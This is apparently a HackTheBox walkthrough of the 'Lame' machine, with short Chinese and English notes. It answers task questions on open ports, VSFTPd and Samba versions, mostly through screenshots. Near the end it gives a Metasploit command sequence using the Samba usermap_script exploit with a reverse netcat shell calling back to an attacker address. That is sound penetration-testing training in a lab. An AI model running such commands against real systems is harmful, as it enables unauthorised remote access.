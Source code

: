 HackTheBox

1.How many of the nmap top 1000 TCP ports are open on the remote host?

![image](https://github.com/user-attachments/assets/7a33649b-012d-4895-9da0-32f59dd6302d)

執行畫面

![image](https://github.com/user-attachments/assets/8d83f47a-87e8-48e8-8658-699d7c09fa08)

ans:4

2.What version of VSFTPd is running on Lame?

![image](https://github.com/user-attachments/assets/37503d04-baa6-4d9c-9a9b-000583c989a6)

執行畫面

![image](https://github.com/user-attachments/assets/fe00ac21-ba10-41cf-85d2-028db69fb7d0)

ans:2.3.4

3.There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?
  VSFTPd 2.3.4 的後門漏洞在這台 Lame 機器上是否可被成功利用？

  ![image](https://github.com/user-attachments/assets/dda3ede2-df54-4fde-9118-e1937bea4c48)

執行畫面

  ![image](https://github.com/user-attachments/assets/5bdf18ac-f39e-4bc8-95b2-bba98ef8a4a4)

  ![image](https://github.com/user-attachments/assets/6f6b9a00-1239-4e63-b2f8-ccde5d3d4ec4)

執行畫面

  ![image](https://github.com/user-attachments/assets/f838a785-b551-46e4-8646-dea137aee549)

  ![image](https://github.com/user-attachments/assets/ee3c085d-fb0b-4715-88bb-485743bf4ef9)

ans:No

4.What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".
  題目要求你找出在 Lame 靶機 上運行的 Samba（SMB）伺服器版本號，只填寫 數字部分，不要包含像 -Debian 的發行版本資訊。

  ![image](https://github.com/user-attachments/assets/a50f0009-4268-41bd-802d-1dfc4cdc4e3f)
  
  執行畫面
  
  ![image](https://github.com/user-attachments/assets/fa70969f-aeff-4b76-9276-4c7ab9ab4ebe)

  ![image](https://github.com/user-attachments/assets/f0b951f0-3884-41aa-8aef-51feed9fba26)
  
  執行畫面 
  
  ![image](https://github.com/user-attachments/assets/3004d88e-1ee3-499b-ad98-d7fc5621d6f4)

知道版本號，就可以從GOOGLE查該版本的CVE漏洞使用

  ![image](https://github.com/user-attachments/assets/308c8dfc-1b0c-44b8-8485-245a85b0fbab)


5.攻擊流程
Submit the flag located in the makis user's home directory.

![image](https://github.com/user-attachments/assets/690b98e0-ea7a-44a4-8add-b4c0feb760cb)

執行畫面 

![image](https://github.com/user-attachments/assets/b3bd4273-1e2d-4008-9f14-ab16520f7b11)

無法確認版本，改用smbclient

![image](https://github.com/user-attachments/assets/66a0b06c-2804-481f-9d28-77817fd3229a)

找出版本為3.0.20

![image](https://github.com/user-attachments/assets/e62836e2-ec70-40af-8ddc-c6cfed281760)

![image](https://github.com/user-attachments/assets/3abc2f22-f81f-4749-bc2c-1e97e0a56036)


bash msfconsole use exploit/multi/samba/usermap_script set RHOSTS 10.10.10.3 set PAYLOAD cmd/unix/reverse_netcat set LHOST 10.10.14.71 run 

<pre> ```
  msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 10.10.14.71
run
  ``` </pre>



  

  
